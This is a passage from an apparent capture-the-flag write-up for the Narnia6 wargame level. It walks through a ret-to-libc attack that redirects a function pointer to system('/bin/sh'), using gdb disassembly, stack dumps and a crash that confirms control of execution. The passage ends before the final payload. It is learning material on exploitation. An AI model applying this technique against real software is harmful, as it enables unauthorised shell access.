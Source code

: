The last lines means we need to point `fp` to a call in a system library. 
This is going to be a [ret to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). We 
need to find the location of the function we want to execute. We want a shell, so our 
best option would be to execute `system('/bin/sh')`. As luck would have it, `puts` and
`system` both have the same function definition: `int system(const char *command);` and
`int puts(const char *s);`

Let's fire up gdb and figure out our addresses.
{% highlight console %}
narnia6@melinda:/narnia$ gdb ./narnia6 -q
Reading symbols from ./narnia6...(no debugging symbols found)...done.
(gdb) disass main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   %ebp
   0x0804855a <+1>:	mov    %esp,%ebp
   0x0804855c <+3>:	push   %ebx
   0x0804855d <+4>:	and    $0xfffffff0,%esp
   0x08048560 <+7>:	sub    $0x30,%esp

    <-- snip -->

   0x0804869b <+322>:	movl   $0xffffffff,(%esp)      
   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
   0x080486a7 <+334>:	lea    0x20(%esp),%eax
   0x080486ab <+338>:	mov    %eax,(%esp)
   0x080486ae <+341>:	mov    0x28(%esp),%eax
   0x080486b2 <+345>:	call   *%eax                <-- calling *fp*
   0x080486b4 <+347>:	movl   $0x1,(%esp)
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.

(gdb) break *0x080486b2
Breakpoint 1 at 0x80486b2
(gdb) r aaaaaaaabbbb ccccccccdddd
Starting program: /games/narnia/narnia6 aaaaaaaabbbb ccccccccdddd

Breakpoint 1, 0x080486b2 in main ()
(gdb) x/50wx $esp
0xffffd680:	0xffffd6a0	0xffffd8ac	0x00000021	0x08048712
0xffffd690:	0x00000003	0xffffd754	0x63636363	0x63636363
0xffffd6a0:	0x64646464	0x61616100	0x62626262	0x00000000
0xffffd6b0:	0x080486c0	0xf7fca000	0x00000000	0xf7e3ca63
0xffffd6c0:	0x00000003	0xffffd754	0xffffd764	0xf7feacea
0xffffd6d0:	0x00000003	0xffffd754	0xffffd6f4	0x08049978
0xffffd6e0:	0x08048290	0xf7fca000	0x00000000	0x00000000
0xffffd6f0:	0x00000000	0x32aaee13	0x0a932a03	0x00000000
0xffffd700:	0x00000000	0x00000000	0x00000003	0x08048450
0xffffd710:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd720:	0x00000003	0x08048450	0x00000000	0x08048471
0xffffd730:	0x08048559	0x00000003	0xffffd754	0x080486c0
0xffffd740:	0x08048730	0xf7feb180
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e62cd0 <system>
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
{% endhighlight %}
